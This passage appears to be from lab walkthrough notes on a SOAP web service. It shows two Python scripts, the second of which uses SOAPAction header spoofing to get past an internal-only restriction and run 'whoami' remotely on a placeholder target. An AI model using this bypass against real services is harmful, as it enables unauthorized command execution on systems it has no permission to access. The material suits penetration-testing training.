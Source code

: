 we can see that there is a `cmd` parameter   

lets make a python script to issue requests, this one will execute the `whoami` command: 

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

when we try to run this script we will get an error that the function is only allowed for internal networks: 

![](Images/Pasted%20image%2020240307154909.png)

we can try to get around this by performing a SOAPAction spoofing attack with a new script: 

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

in this script we instead specify the `LoginRequest` in the `<soap:Body>` so that our request goes through  
we then specify the parameters of `ExecuteCommand` because we want to have the SOAP service execute a `whoami` command   
in the `SOAPAction` header we can then use the `ExecuteCommand` operation   

if the web service determines the operation solely based on the `SOAPAction` header we might bypass the restrictions that the SOAP service has and execute our restricted operation   

we can run our new script and see that we get our command output: 

![](Images/Pasted%20image%2020240307155459.png)
